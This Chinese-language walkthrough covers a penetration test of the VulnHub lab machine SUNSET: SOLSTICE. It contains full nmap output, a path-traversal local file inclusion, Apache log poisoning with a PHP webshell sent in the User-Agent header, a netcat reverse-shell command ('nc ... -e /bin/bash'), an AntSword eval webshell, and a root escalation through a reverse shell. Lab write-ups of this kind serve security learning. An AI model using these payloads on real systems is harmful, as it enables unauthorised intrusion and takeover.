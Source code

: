 ```yaml
---
title: Vulnhub	499	SUNSET: SOLSTICE
categories: pentest vulnhub
---
```


https://www.vulnhub.com/entry/sunset-solstice,499/

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

```bash
$ export rip=10.0.2.4
                                                                                         $ nmap -v -A -p- $rip
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 20:31 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating Ping Scan at 20:31
Scanning 10.0.2.4 [2 ports]
Completed Ping Scan at 20:31, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:31
Completed Parallel DNS resolution of 1 host. at 20:31, 0.00s elapsed
Initiating Connect Scan at 20:31
Scanning localhost (10.0.2.4) [65535 ports]
Discovered open port 22/tcp on 10.0.2.4
Discovered open port 139/tcp on 10.0.2.4
Discovered open port 25/tcp on 10.0.2.4
Discovered open port 445/tcp on 10.0.2.4
Discovered open port 80/tcp on 10.0.2.4
Discovered open port 21/tcp on 10.0.2.4
Discovered open port 8593/tcp on 10.0.2.4
Discovered open port 3128/tcp on 10.0.2.4
Discovered open port 62524/tcp on 10.0.2.4
Discovered open port 54787/tcp on 10.0.2.4
Discovered open port 2121/tcp on 10.0.2.4
Completed Connect Scan at 20:31, 11.05s elapsed (65535 total ports)
Initiating Service scan at 20:31
Scanning 11 services on localhost (10.0.2.4)
Completed Service scan at 20:31, 18.55s elapsed (11 services on 1 host)
NSE: Script scanning 10.0.2.4.
Initiating NSE at 20:31
NSE: [ftp-bounce] PORT response: 501 Rejected data connection to foreign address 45.33.32.156:20560.
Completed NSE at 20:31, 17.54s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.15s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Nmap scan report for localhost (10.0.2.4)
Host is up (0.0011s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-13T20:31:35-04:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-14T00:31:35
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

于是想包含apache2日志或者auth.log

试图包含 http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log发现包含失败，应该是权限不够。

试图包含 http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787 web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对http://10.0.2.4:80的访问会写入`/var/log/apache2/access.log`日志。

本地启动`/etc/init.d/apache2 start` 

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](D:\Users\oncen\Desktop\499\1.JPG)

![2](D:\Users\oncen\Desktop\499\2.JPG)

写入成功

上靶机

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```



浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](D:\Users\oncen\Desktop\499\4.JPG)

尝试写入当前目录，发现可写，果断上个一句话连antsword。这里第一次连接失败，断掉nc连接

![6](D:\Users\oncen\Desktop\499\6.JPG)

也可以直接写antsword用的`<?php eval($_POST[123]); ?> `

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](D:\Users\oncen\Desktop\499\7.JPG)

刚好文件又可以写入，果断写入nc反弹

![9](D:\Users\oncen\Desktop\499\9.JPG)

```
curl http://127.0.0.1:57
```

获得root

![10](D:\Users\oncen\Desktop\499\10.JPG)



wget https://pan.iihack.com/d/Software/AntSword/AntSword-Loader-v4.0.3-linux-x64.zip
wget https://pan.iihack.com/d/Software/AntSword/antSword-2.1.15.zip

unzip AntSword-Loader-v4.0.3-linux-x64.zip

unzip antSword-2.1.15.zip

cd antSword-2.1.15

```
mv node_modules/mime/mime.js node_modules/mime/Mime.js
```

```
$ python -m 'http.server' 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

